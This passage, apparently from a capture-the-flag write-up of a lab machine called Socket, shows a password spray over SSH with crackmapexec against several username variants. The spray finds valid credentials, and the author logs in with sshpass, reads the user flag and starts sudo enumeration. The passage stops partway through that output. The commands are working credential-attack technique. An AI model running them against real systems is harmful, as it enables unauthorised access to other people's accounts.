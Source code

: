 
#### Brute

To quickly check these, I’ll use `crackmapexec`:

    
    
    crackmapexec ssh 10.10.11.206 -u usernames -p denjanjade122566
    SSH         10.10.11.206    22     10.10.11.206     [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.1
    SSH         10.10.11.206    22     10.10.11.206     [-] thomas:denjanjade122566 Authentication failed.
    SSH         10.10.11.206    22     10.10.11.206     [-] thomaskeller:denjanjade122566 Authentication failed.
    SSH         10.10.11.206    22     10.10.11.206     [-] thomas.keller:denjanjade122566 Authentication failed.
    SSH         10.10.11.206    22     10.10.11.206     [-] thomaske:denjanjade122566 Authentication failed.
    SSH         10.10.11.206    22     10.10.11.206     [-] thomkell:denjanjade122566 Authentication failed.
    SSH         10.10.11.206    22     10.10.11.206     [-] thomask:denjanjade122566 Authentication failed.
    SSH         10.10.11.206    22     10.10.11.206     [-] t.keller:denjanjade122566 Authentication failed.
    SSH         10.10.11.206    22     10.10.11.206     [+] tkeller:denjanjade122566
    

It finds a match for tkeller.

#### Shell

Now I’ll connect with SSH:

    
    
    oxdf@hacky$ sshpass -p denjanjade122566 ssh tkeller@10.10.11.206
    Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-67-generic x86_64)
    ...[snip]...
    tkeller@socket:~$ 
    

And get `user.txt`:

    
    
    tkeller@socket:~$ cat user.txt
    89005f4e************************
    

## Shell as root

### Enumeration

#### sudo

The first thing to check on Linux is `sudo -l`, and it finds something:

    
    
    tkeller@socket:~$ sudo -l
    Matching Defaults entries for tkeller on socket:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
    